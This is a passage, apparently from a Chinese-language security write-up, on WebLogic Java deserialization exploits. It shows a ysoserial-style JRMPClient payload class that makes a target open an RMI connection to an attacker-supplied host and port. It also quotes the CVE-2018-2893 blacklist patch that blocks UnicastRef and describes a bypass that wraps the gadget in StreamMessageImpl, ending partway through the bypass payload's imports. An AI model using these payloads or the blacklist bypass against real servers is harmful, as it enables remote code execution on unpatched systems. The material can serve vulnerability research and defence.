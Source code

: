 ```java

public class JRMPClient1 extends PayloadRunner implements ObjectPayload<Object> {

    public Object getObject(final String command) throws Exception {

        String host;
        int port;
        int sep = command.indexOf(':');
        if (sep < 0) {
            port = new Random().nextInt(65535);
            host = command;
        } else {
            host = command.substring(0, sep);
            port = Integer.valueOf(command.substring(sep + 1));
        }
        ObjID id = new ObjID(new Random().nextInt()); // RMI registry
        TCPEndpoint te = new TCPEndpoint(host, port);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        return ref;
    }


    public static void main ( final String[] args ) throws Exception {
        Thread.currentThread().setContextClassLoader(JRMPClient1.class.getClassLoader());
        PayloadRunner.run(JRMPClient1.class, args);
    }
}

```



改接口ysoserial上自带了





## CVE-2018-2893

补丁：

```java
private static final String[] DEFAULT_BLACKLIST_CLASSES = new String[]{"org.codehaus.groovy.runtime.ConvertedClosure", "org.codehaus.groovy.runtime.ConversionHandler", "org.codehaus.groovy.runtime.MethodClosure", "org.springframework.transaction.support.AbstractPlatformTransactionManager", "sun.rmi.server.UnicastRef"};

```

黑名单加了UnicastRef，不能建立RMI连接了，也就阻断了上面两种攻击方式。

可以学习0638的绕过方式（也是封装进StreamMessageImpl），把Gadget封装进StreamMessageImpl，不走InboundMsgAbbrev也就不会遇到黑名单

```java
package ysoserial.payloads;


import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;
import weblogic.jms.common.StreamMessageImpl;
import ysoserial.Serializer;
import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.PayloadTest;
import ysoserial.payloads.util.PayloadRunner;

import java.lang.reflect.Proxy;
```